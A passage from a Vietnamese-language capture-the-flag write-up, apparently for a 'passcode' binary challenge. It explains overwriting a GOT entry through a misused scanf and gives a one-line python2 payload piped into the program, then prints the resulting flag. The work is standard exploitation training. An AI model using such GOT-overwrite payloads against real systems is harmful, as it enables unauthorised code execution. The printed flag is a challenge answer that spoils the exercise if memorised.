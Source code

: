 Rồi trở lại hàm `login`...

### Tấn công  

Do ta có thể chọn một địa chỉ và ghi đè nội dung của địa chỉ đó thông qua biến `passcode1`  

Nên ta sẽ chọn địa chỉ bắt đầu các instruction của hàm`jmp` trong GOT  

Cúng chính là nội dung/giá trị của con trỏ `0x804a004`

Ta sẽ thay nội dung/giá trị của con trỏ `0x804a004` thành địa chỉ của instruction `puts` hoặc intrustion `system` (mình đề xuất dùng địa chỉ của instruction `puts`)  

Tức là khi hàm `fflush` được gọi nó sẽ nhảy đến địa chỉ mà con trỏ `0x804a004` trỏ tới  

Lúc này nó sẽ trỏ tới instuction `puts` và thực thi các instruction từ instruction `puts` trở đi  

### Payload

Vậy Payload sẽ gồm:  

- 96 bytes "A"
- 4 bytes "\x04\xa0\x04\x08"  
- Cái mà ta muốn ghi đè được viết dưới dạng số nguyên (int): "134514147"  

```
python2 -c 'print("A"*96 + "\x04\xa0\x04\x08" + "134514147")' | ./passcode
```  

Kết quả:  

![image](https://user-images.githubusercontent.com/74854445/131665872-12a95200-f84c-4943-a15f-e13a96e98460.png)

**Flag: Sorry mom.. I got confused about scanf usage :(**  

## HẾT
